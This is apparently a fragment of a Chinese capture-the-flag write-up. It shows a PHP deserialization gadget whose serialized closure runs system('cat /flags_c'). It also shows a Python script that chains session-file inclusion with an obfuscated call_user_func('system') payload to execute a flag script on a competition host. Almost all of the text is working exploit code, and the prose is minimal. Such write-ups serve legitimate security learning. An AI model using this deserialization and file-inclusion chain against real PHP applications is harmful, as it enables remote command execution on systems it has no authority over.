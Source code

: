 ```
    final class PumpStream`{`
        private $source;
        private $size=-10;
        private $buffer;
        public function __construct()`{`
            $this-&gt;buffer=new DefaultGenerator('j');
            include("closure/autoload.php");
            $a = function()`{`system('cat /flags_c');phpinfo();    `}`;
            $a = \Opis\Closure\serialize($a);
            $b = unserialize($a);
            $this-&gt;source=$b;
        `}`
    `}`
`}`

```

### <a class="reference-link" name="%E5%AE%89%E5%85%A8%E6%A3%80%E6%B5%8B"></a>安全检测

考虑session文件包含发现会包含url2直接多加个参数call_user_func执行命令

```
import requests
from requests import Response
from requests.api import head

url = "http://eci-2zefgf3p1ush1igogvo9.cloudeci1.ichunqiu.com"

s = requests.session()

username = "PD9waHAgcGhwaW5mbygpOz8+"

sessid = 'c899a0d6935a15da7e42e02b9fe0a16c'

headers=`{`"Cookie":F"PHPSESSID=`{`sessid`}`"`}`

data= `{`
    "username":username
`}`
res = s.post(f"`{`url`}`/login.php",json=data)

sessid= s.cookies.get_dict()['PHPSESSID']

print(sessid)

payload = f'http://127.0.0.1/admin/include123.php/?u=/tmp/sess_`{`sessid`}`&amp;p=&lt;?=call_user_func("s"."y"."s"."t"."e"."m","/getf"."lag.sh");?&gt;'

p = `{`
    "url1":payload
`}`

res = s.post(f"`{`url`}`/check2.php",data=p)

print(res.text)

res = s.get(f"`{`url`}`/preview.php")

print(res.text)
```
